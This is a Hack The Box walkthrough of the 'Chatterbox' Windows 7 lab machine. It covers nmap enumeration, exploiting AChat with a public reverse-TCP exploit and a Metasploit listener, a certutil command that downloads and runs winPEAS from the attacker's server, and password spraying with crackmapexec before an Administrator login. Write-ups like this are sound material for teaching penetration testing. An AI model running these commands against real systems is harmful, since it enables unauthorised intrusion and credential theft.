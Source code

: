 # Chatterbox - Hack The Box Walkthrough

**Date**: 2024-11-21  

---

## Scope

The target is a Windows machine named `Chatterbox` with the following details:

- **IP Address**: `10.10.10.74`
- **OS**: Windows 7 Professional SP1
- **Computer Name**: `CHATTERBOX`
- **Workgroup**: `WORKGROUP`

---

## Enumeration

### 1. Full Port Scan
To identify open ports, I performed a full Nmap scan:
```bash
nmap -p- 10.10.10.74 -v -oN nmap/full_scan.chatterbox.txt
```

**Open Ports**:
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
```

### 2. Service Enumeration
A more detailed scan was conducted on the identified ports:
```bash
nmap -p135,139,445,9255,9256,49152-49157 -A -T4 -v -oN nmap/service_scan.chatterbox.txt
```

**Key Findings**:
- **OS**: Windows 7 Professional SP1
- **Hostname**: CHATTERBOX
- **Workgroup**: WORKGROUP
- **Notable Services**:
  - SMB misconfiguration: Message signing disabled but not required.
  - Ports 9255 and 9256 associated with AChat chat software.

---

## SMB Enumeration

SMB enumeration was conducted using various tools (`enum4linux`, `crackmapexec`), but no valuable information was found. The misconfigured SMB signing (disabled but not required) could allow an SMB Relay attack.

```text
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

---

## RPC Enumeration

I used `rpcclient` and `rpcdump` to query RPC information, but no significant data was revealed.

---

## Exploitation

### 1. Identifying AChat
Ports 9255 and 9256 are commonly associated with AChat, a Windows-based chat application. Using `searchsploit` and online research, I found exploits for AChat:
- **Reference**: [Port 9256 Details](https://www.speedguide.net/port.php?port=9256)
- **Exploit**: [AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

![Screenshot from 2024-11-22 17-05-24](https://github.com/user-attachments/assets/911bb632-cc95-4ea6-98c3-01c0e77a8411)

### 2. Exploiting AChat
Steps to exploit AChat:
1. **Clone the Exploit Repository**:
   ```bash
   git clone https://github.com/mpgn/AChat-Reverse-TCP-Exploit
   cd AChat-Reverse-TCP-Exploit
   ```
2. Change script permission and **Generate Payload**:
   ```bash
   chmod +x AChat_Payload.sh
   ./AChat_Payload.sh.sh
   ```
   I selected `windows/shell/reverse_tcp` as the payload.

3. **Set Up Listener**:
   On Metasploit, I configured the handler:
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/shell/reverse_tcp
   set LHOST <your_ip>
   set LPORT <your_port>
   run
   ```

4. **Execute Exploit**:
   I updated the Python exploit script with the payload and executed it:
   ```bash
   AChat_Exploit.py
   ```

**Outcome**: Successfully gained a shell and retrieved the **user flag**.

![Screenshot from 2024-11-24 17-58-15](https://github.com/user-attachments/assets/c6a3f4a1-ff50-4bde-bce0-4af9e63d291f)

---

## Post Exploitation

### 1. Local Enumeration
I performed manual enumeration and transferred `winPEAS` to the target for privilege escalation analysis.
I started a listener on my machine:
```bash
python3 -m http.server 8081  # Start web server
```

Then I move in a temp directory and downloaded winPEAS:
```bash
cd C:\Windows\Temp
certutil -urlcache -f http://<your_ip>:8081/winPEASx86.exe wp.exe  # Download on target
wp.exe  # Execute winPEAS
```

### 2. AutoLogon Credentials
WinPEAS revealed AutoLogon credentials:
```
DefaultUserName: Alfred
DefaultPassword: ********
```

### 3. Password Spraying
Using the AutoLogon password, I tested all users on the target:
```bash
crackmapexec smb 10.10.10.74 -u users -p "********" --continue-on-success
```

**Outcome**: The password also worked for the `Administrator` account.

![Screenshot from 2024-11-24 18-13-47](https://github.com/user-attachments/assets/c97e9093-2419-40e0-9097-3fa1c76d6d36)

---

## Privilege Escalation

Using the administrator credentials, I logged in and retrieved the **root flag**.

### Steps:
1. **Login via WMIExec**:
   ```bash
   wmiexec.py CHATTERBOX/Administrator:"********"@10.10.10.74
   ```

2. **Flag Retrieval**:
   Navigated to the `C:\Users\Administrator\Desktop` directory and retrieved the root flag.

---

## Summary

1. Enumerated services and identified AChat running on port 9256.
2. Exploited AChat using a reverse TCP shell payload.
3. Retrieved AutoLogon credentials and escalated privileges via a password spraying attack.
4. Logged in as Administrator and retrieved both user and root flags.

---

## Resources

- [Port 9256 Details](https://www.speedguide.net/port.php?port=9256)
- [AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

---

